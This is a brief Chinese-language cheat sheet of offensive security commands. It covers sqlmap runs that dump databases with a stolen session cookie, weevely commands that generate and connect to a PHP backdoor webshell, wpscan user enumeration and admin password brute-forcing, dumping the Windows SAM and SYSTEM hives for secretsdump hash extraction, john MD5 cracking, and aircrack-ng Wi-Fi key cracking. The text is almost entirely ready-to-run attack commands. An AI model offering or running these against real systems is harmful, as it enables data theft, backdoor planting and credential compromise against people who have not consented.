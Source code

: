 SQL檢測注入工具

```sh
sudo sqlmap -u "https://url" --cookie="<COOKIE>" --dbs
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name --tables
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --columns --technique=B
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --dump --technique=B
sudo sqlmap -u "https://url" --forms --crawl=2 -dbs
```

## _weevely_

Webshell

```sh
weevely generate king backdoor.php  //生成
weevely http://ip:port/backdoor.php king  //連接
```

## _wpscan_

WordPress安全性掃描工具

```sh
# 查看指令使用方式
wpscan -h
# 列舉使用者
wpscan --url http://url -e u 
# 破密
wpscan --url http://url  -U admin -P /usr/share/wordlists/nmap.lst 
```

## _pwdump_

```sh
reg save hklm\sam pwdump\sam
reg save hklm\system pwdump\system
impacket-secretsdump LOCAL -system pwdump/system -sam pwdump/sam -outputfile pwdump/10.10.10.10
ophcrack (執行程式破密)
```

## _john_

破密工具

```sh
john secret.txt --format=raw-md5
```

## _aircrack_

```sh
aircrack-ng WEPooo.cap
aircrack-ng WPA2ooo.cap -w /usr/share/wordlists/nmap.lst
```
